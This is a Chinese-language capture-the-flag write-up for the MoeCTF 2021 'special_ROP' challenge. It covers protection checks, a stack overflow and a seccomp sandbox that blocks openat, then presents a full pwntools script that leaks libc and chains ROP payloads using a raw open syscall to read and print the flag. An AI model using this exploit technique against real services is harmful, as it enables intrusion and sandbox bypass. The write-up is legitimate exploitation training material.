---
---

## checksec结果



只开了NX保护，没有canay和PIE保护


## IDA反汇编结果









可以看到，程序有sandbox，开了沙箱保护

vuln函数存在栈溢出漏洞，而且溢出很多字节

init函数提供了puts的真实地址(前面调用了puts函数)


## 查看沙箱保护



查看结果：程序允许read, write, open函数，无法使用system函数，因此不能直接用system(/bin/sh)来getshell，考虑使用orw的ROP


## 思路

正常情况下的思路：利用栈溢出漏洞，构造orw的ROP：首先利用puts真实地址函数泄露libc，得到read, write, open函数的真实地址，接着将./flag或./flag.txt字符串写到bss段，再进行orw。

==但是沙箱禁用了openat函数，而libc里的open函数内部会调用openat函数，所以不能用libc里的open函数；==

==考虑使用系统调用的open函数，那就要找pop rax;ret和syscall;ret，这样就打开flag文件，接着就正常的orw==


## 查找寄存器

==对于rax, rsi, rdx等寄存器的gadget比较好找，但syscall;ret的gadget不好找==

使用命令查找syscall;ret：

```bash
objdump -d libc.so.6 | grep -B2 -A2 'syscall'
或者objdump -d libc.so.6 | grep -B2 -A2 'syscall' | grep -B1 -A1 'ret'
```





## EXP

```py
from pwn import *
from time import sleep
context(arch = 'amd64', os = 'linux', log_level = 'debug')
elf = ELF('./MoeCTF_2021_special_ROP')
io = process('./MoeCTF_2021_special_ROP')
#io = remote("node5.anna.nssctf.cn", 21551)	#远程
#libc = elf.libc
libc = ELF('/home/elaina/glibc-all-in-one/glibc-all-in-one-master/libs/2.23-0ubuntu11.3_amd64/x86_64-linux-gnu/libc-2.23.so')

vuln_addr = 0x0000000000401422
puts_plt_addr = elf.plt['puts']
puts_got_addr = elf.got['puts']


bss_addr = 0x0000000000404080
pop_rdi_addr = 0x0000000000401503
ret_addr = 0x000000000040101a

pop_rax_offset = 0x000000000003a738
pop_rsi_offset = 0x00000000000202f8
pop_rdx_rbx_offset = 0x00000000001020fc
syscall_offset = 0x00000000000bc3f5


io.recvuntil("Before that here is a gift: ")
puts_real_addr = int(io.recv(14).decode(), 16)
#或者puts_addr = int(p.recvline().strip(b'\n'), 16)
print(f"puts_addr = {hex(puts_real_addr)}")

libc_base_addr = puts_real_addr - libc.symbols['puts']
open_real_addr = libc_base_addr + libc.symbols['open']
read_real_addr = libc_base_addr + libc.symbols['read']
write_real_addr = libc_base_addr + libc.symbols['write']
print(f"libc_base_addr = {hex(libc_base_addr)}")
print(f"open_real_addr = {hex(open_real_addr)}")
print(f"read_real_addr = {hex(read_real_addr)}")
print(f"write_real_addr = {hex(write_real_addr)}")

pop_rax_addr = libc_base_addr + pop_rax_offset
pop_rsi_addr = libc_base_addr + pop_rsi_offset
pop_rdx_rbx_addr = libc_base_addr + pop_rdx_rbx_offset
syscall_addr = libc_base_addr + syscall_offset

"""
pop_rax_addr = libc_base_addr + next(libc.search(asm('pop rax\nret')))
pop_rsi_addr = libc_base_addr + next(libc.search(asm('pop rsi\nret')))
syscall_addr = libc_base_addr + next(libc.search(asm('syscall\nret')))
"""

#read(0, bss_addr + 0x100, 0x10)
payload_1 = b'A' * 0x70 + b'B' * 0x8 + p64(pop_rdi_addr) + p64(0) + p64(pop_rsi_addr) + p64(bss_addr + 0x100)
payload_1 += p64(pop_rdx_rbx_addr) + p64(0x10) + p64(0x10) + p64(read_real_addr) + p64(vuln_addr)
io.recvuntil("Here is a message book:\n\n")
io.sendline(payload_1)

payload_2 = b"/flag\00"
#或者payload_2 = b"/flag\00"		#远程
sleep(1)
io.sendline(payload_2)

#open系统调用号：2
#open("./flag", 0, 0)   或者    open("/flag", 0, 0)
payload_3 = b'A' * 0x70 + b'B' * 0x8 + p64(pop_rdi_addr) + p64(bss_addr + 0x100) + p64(pop_rsi_addr) + p64(0)
payload_3 += p64(pop_rax_addr) + p64(2) + p64(syscall_addr) 
payload_3 += p64(ret_addr) + p64(vuln_addr)
sleep(1)
io.sendline(payload_3)


#read(3, bss_addr + 0x200, 0x100)
payload_4 = b'A' * 0x70 + b'B' * 0x8 + p64(pop_rdi_addr) + p64(3) + p64(pop_rsi_addr) + p64(bss_addr + 0x200)
payload_4 += p64(pop_rdx_rbx_addr) + p64(0x100) + p64(0x100) + p64(read_real_addr) + p64(vuln_addr)
sleep(1)
io.sendline(payload_4)

#write(1, bss_addr + 0x200, 0x100)
payload_5 = b'A' * 0x70 + b'B' * 0x8 + p64(pop_rdi_addr) + p64(1) + p64(pop_rsi_addr) + p64(bss_addr + 0x200)
payload_5 += p64(pop_rdx_rbx_addr) + p64(0x100) + p64(0x100) + p64(write_real_addr)
sleep(1)
io.sendline(payload_5)

io.interactive()
```

==注意：==

==/flag是从根目录打开flag文件==

==./flag是从当前程序目录打开flag文件==


## 远程得到的libc版本


## 运行结果

本地：





远程：



